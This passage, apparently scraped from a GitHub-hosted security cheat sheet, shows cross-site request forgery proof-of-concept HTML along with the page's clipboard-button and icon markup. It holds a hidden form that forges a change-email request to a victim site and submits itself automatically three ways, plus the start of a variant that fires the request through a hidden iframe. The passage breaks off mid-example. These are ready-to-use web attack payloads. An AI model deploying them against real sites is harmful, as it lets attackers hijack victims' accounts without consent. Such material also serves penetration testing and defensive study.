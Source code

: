     &lt;form action="https://victim.net/email/change-email" id="csrfform"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /&gt; &lt;!-- Way 1 to autosubmit --&gt;
      &lt;input type="submit" value="Submit request" /&gt;
      &lt;img src=x onerror="csrfform.submit();" /&gt; &lt;!-- Way 2 to autosubmit --&gt;
    &lt;/form&gt;
    &lt;script&gt;
      document.forms[0].submit(); //Way 3 to autosubmit
    &lt;/script&gt;
  &lt;/body&gt;
&lt;/html&gt;
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action=&quot;https://victim.net/email/change-email&quot; id=&quot;csrfform&quot;>
      <input type=&quot;hidden&quot; name=&quot;email&quot; value=&quot;some@email.com&quot; autofocus onfocus=&quot;csrfform.submit();&quot; /> <!-- Way 1 to autosubmit -->
      <input type=&quot;submit&quot; value=&quot;Submit request&quot; />
      <img src=x onerror=&quot;csrfform.submit();&quot; /> <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-form-post-request-through-iframe" class="anchor" aria-hidden="true" href="#form-post-request-through-iframe"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>Form POST request through iframe</h3>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre lang="markup"><code>&lt;!-- 
The request is sent through the iframe withuot reloading the page 
--&gt;
&lt;html&gt;
  &lt;body&gt;
  &lt;iframe style="display:none" name="csrfframe"&gt;&lt;/iframe&gt; 
    &lt;form action="/change-email" id="csrfform" target="csrfframe"&gt;
      &lt;input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;